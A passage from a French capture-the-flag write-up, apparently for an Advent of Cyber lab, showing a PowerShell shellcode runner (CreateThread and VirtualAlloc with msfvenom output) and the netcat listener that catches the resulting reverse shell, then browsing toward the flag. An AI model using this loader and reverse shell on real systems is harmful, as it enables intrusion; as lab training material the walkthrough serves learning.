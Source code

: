 ```powershell

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread
```

Après avoir valider ce premier bloc, nous ajoutons le résultat de la commande `msfvenom` réalisée plus tôt.

Ensuite nous devons ajouter les commandes suivantes **ligne par ligne**

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Nous avons obtenu notre {% include dictionary.html word="reverse-shell" %}

```bash
rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.230.38 49808
Microsoft Windows [Version 10.0.17763.6293]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\glitch>whoami
whoami
aoc\glitch
```

Nous passons le shell de base (`cmd`) en PowerShell, puis nous navigons vers le flag et nous l'ouvrons :

```powershell
Get-ChildItem

    Directory: C:\Users\glitch


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        10/3/2024  10:56 PM                3D Objects                                                            
d-r---        10/3/2024  10:56 PM                Contacts                                                              
d-r---       12/14/2024   8:54 PM                Desktop                                                               
d-r---        10/3/2024  10:56 PM                Documents                                                             
d-r---        10/3/2024  10:56 PM                Downloads                                                             
d-r---        10/3/2024  10:56 PM                Favorites                                                             
```